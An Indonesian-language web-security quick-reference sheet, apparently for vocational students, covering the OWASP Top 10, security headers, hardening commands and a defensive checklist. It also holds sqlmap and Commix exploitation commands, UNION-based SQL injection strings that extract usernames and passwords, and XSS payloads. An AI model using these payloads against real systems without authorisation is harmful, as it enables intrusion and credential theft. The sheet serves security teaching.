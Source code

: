 # 🔍 Referensi Cepat - Keamanan Aplikasi Web

## 🛡️ OWASP Top 10 2021
1. **Broken Access Control**
   - URL manipulation
   - Insecure direct object references
   - Missing function level access control

2. **Cryptographic Failures**
   - Weak hashing algorithms
   - Improper certificate validation
   - Hardcoded secrets

3. **Injection**
   - SQL, NoSQL, OS, LDAP injection
   - Template injection
   - Expression language injection

4. **Insecure Design**
   - Missing security controls
   - Insecure patterns
   - Lack of threat modeling

5. **Security Misconfiguration**
   - Default credentials
   - Verbose error messages
   - Unnecessary features enabled

## 🛠️ Tools Penting

### 1. Scanning & Testing
```bash
# OWASP ZAP
zap.sh -daemon -port 8080 -host 127.0.0.1 -config api.disablekey=true

# Nmap (Network Scanning)
nmap -sV --script vuln target.com

# Nikto (Web Server Scanner)
nikto -h target.com
```

### 2. Exploitation
```bash
# SQLmap (SQL Injection)
sqlmap -u "http://target.com/page?id=1" --dbs

# XSStrike (XSS Scanner)
python3 xsstrike.py -u "http://target.com/search?q=test"

# Commix (Command Injection)
python3 commix.py -u "http://target.com/cmd.php?cmd=id"
```

### 3. Proxy & Interception
```bash
# Burp Suite
java -jar burpsuite_community.jar

# mitmproxy
mitmproxy -p 8080
```

## 🔐 Header Keamanan HTTP
```http
# Mencegah clickjacking
X-Frame-Options: DENY

# Mencegah MIME-sniffing
X-Content-Type-Options: nosniff

# Mengaktifkan XSS filter browser
X-XSS-Protection: 1; mode=block

# Kebijakan keamanan konten
Content-Security-Policy: default-src 'self'

# Kebijakan transportasi HTTP yang aman
Strict-Transport-Security: max-age=31536000; includeSubDomains

# Kontrol referrer
Referrer-Policy: no-referrer

# Kebijakan fitur
Feature-Policy: geolocation 'none'; microphone 'none'
```

## 🧰 Perintah SQL Injection

### Deteksi
```sql
' OR '1'='1
' OR 1=1 --
' UNION SELECT null,username,password FROM users--
```

### Eksploitasi
```sql
-- Daftar database
' UNION SELECT schema_name,null FROM information_schema.schemata--

-- Daftar tabel
' UNION SELECT table_name,null FROM information_schema.tables WHERE table_schema='database'--

-- Daftar kolom
' UNION SELECT column_name,null FROM information_schema.columns WHERE table_name='users'--

-- Ambil data
' UNION SELECT username,password FROM users--
```

## 🎯 Payload XSS Umum
```html
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
<iframe src="javascript:alert('XSS')">
```

## 📌 Perintah Linux untuk Keamanan

### Analisis Log
```bash
# Monitor akses web secara real-time
tail -f /var/log/nginx/access.log

# Cari upaya login gagan
grep "Failed password" /var/log/auth.log

# Hitung IP yang melakukan banyak request
awk '{print $1}' access.log | sort | uniq -c | sort -nr | head -n 10
```

### Hardening
```bash
# Nonaktifkan login root
sudo passwd -l root

# Periksa file dengan SUID
find / -perm -4000 -type f 2>/dev/null

# Periksa port yang terbuka
ss -tulnp
```

## 📚 Referensi Penting

### Dokumentasi
- [OWASP Web Security Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)
- [Mozilla Security Guidelines](https://infosec.mozilla.org/guidelines/web_security)

### Tools
- [OWASP ZAP](https://www.zaproxy.org/)
- [Burp Suite](https://portswigger.net/burp)
- [Nmap](https://nmap.org/)
- [Wireshark](https://www.wireshark.org/)

### Sumber Belajar
- [Hack The Box](https://www.hackthebox.com/)
- [TryHackMe](https://tryhackme.com/)
- [Hacker101](https://www.hacker101.com/)

## 📋 Checklist Keamanan Dasar

### Aplikasi Web
- [ ] Validasi input di server dan client
- [ ] Gunakan parameterized queries
- [ ] Implementasikan autentikasi yang aman
- [ ] Terapkan kontrol akses yang tepat
- [ ] Lindungi data sensitif
- [ ] Konfigurasi keamanan yang tepat
- [ ] Lakukan hardening server
- [ ] Enkripsi data dalam perjalanan (TLS)
- [ ] Perbarui dependensi secara berkala
- [ ] Lakukan pengujian keamanan rutin

### API
- [ ] Gunakan autentikasi yang kuat
- [ ] Terapkan rate limiting
- [ ] Validasi input dan output
- [ ] Gunakan HTTPS
- [ ] Terapkan CORS dengan benar
- [ ] Log aktivitas penting

---
<div align="center">
  <p>Dokumen Referensi - Keamanan Aplikasi Web</p>
  <p>© 2025 SMKN 1 Punggelan</p>
</div>
